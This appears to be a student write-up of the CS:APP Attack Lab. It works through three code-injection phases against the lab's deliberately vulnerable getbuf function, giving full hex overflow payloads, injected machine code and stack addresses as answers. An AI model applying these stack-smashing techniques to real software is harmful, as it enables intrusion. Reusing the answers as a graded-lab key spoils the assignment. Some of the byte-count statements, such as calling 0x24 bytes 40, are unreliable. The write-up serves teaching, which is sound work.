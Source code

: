 # Attack Lab

> This lab teaches the students about the stack discipline and teaches them about the danger of writing code that is vulnerable to buffer overflow attacks.

Before starting the lab, read [Writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf) & CSAPP 3.10.3, 3.10.4 carefully.

## Code Injection Attack

### Phase 1

> Same as textbook.

```c
// when s increase, %rsp address decrease
char *Gets(char *s) {
    int c;
    char *dest = s;
    while ((c = getchar()) != '\n' && c != EOF) {
        *dest++ = c;
    }
    if (c == EOF && dest == s)
        // No characters read
        return NULL;
    *dest++ = '\0'; // termination string
    return s;
}

unsigned getbuf() {
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}

// getbuf is called by test
void test() {
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}

// our target
void touch1() {
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

What we need to do is to inject a return the address of `touch1()` to `getbuf()`.

In our case, gcc allocated `0x24` bytes for `getbuf()` - 40 bytes.
That is: if input is less than 23 bytes (stack saved 16 bytes, '\0' 1 byte), it will work well.
But if input is more than 23 bytes, it will cause buffer overflow.

We need to inject a return address to `getbuf()` via buffer overflow.
The address is `0x00000000004017c0`.

So, the answer is:

```bash
# we donot care about the low 40 bytes
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
c0 17 40 00 00 00 00 00 # little endian
```

### Phase 2

```c
void touch2(unsigned val) { // passed in %rdi
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

What we need to do is to inject code segment that store *cookie* to `%rdi`, and then call `touch2()`.
The only way to inject our code is to add our code segment to the string, make the string run as code.

The return address as above, should be our code segment's address.

```x86_64
0:	68 ec 17 40 00       	push   $0x4017ec
5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
c:	c3                   	ret
```

After `getbuf()` pushing stack, the `%rsp` is `0x5561dc78`. The first address of our code segment is
`0x5561dc78`, too.

So, the answer is:

```bash
68 ec 17 40 00 48 c7 c7 # code segment address, the dump code already little endian
fa 97 b9 59 c3 00 00 00
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
78 dc 61 55 00 00 00 00 # the address of our code segment
```

### Phase 3

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval) { // passed in %rdi
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

We need to store an array to somewhere, very similar to phase 2.
In order to prevent the string stored in the stack from being destroyed,
we need to store it safely. Obviously we need to store it in the stack/heap.

The `ret` will pop the return address, so after jumping to `touch3()`,
the `%rsp` is controlled by `touch3()` & its callees.

We need to store it into [temporary] saved stack. According to CSAPP 3.10.3,
the saved location is less than `getbuf()`'s stack representing by address value.

```bash
# ASCII version of cookie
35 39 62 39 39 37 66 61
```

```x86_64
0: 68 fa 18 40 00       	push   $0x4018fa
5: 48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi # the string address, stored in stack bottom of getbuf()
c: c3                   	ret
```

So, the answer is:

```bash
68 fa 18 40 00 48 c7 c7 # 0x5561dc78=0x5561dca0-0x28 (getbuf() allocate memory)
a8 dc 61 55 c3 00 00 00
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
78 dc 61 55 00 00 00 00 # the address of our code segment; 0x5561dca0
35 39 62 39 39 37 66 61 # ASCII version of cookie; 0x5561dca0~0x5561dca8
# string is an array of char, head is '5'/'\35', tail is '\61'; first address is 0x5561dca0
```

> If we want to read the above hex from big to small(stack increase), we need to read from bottom to top, from left to right.
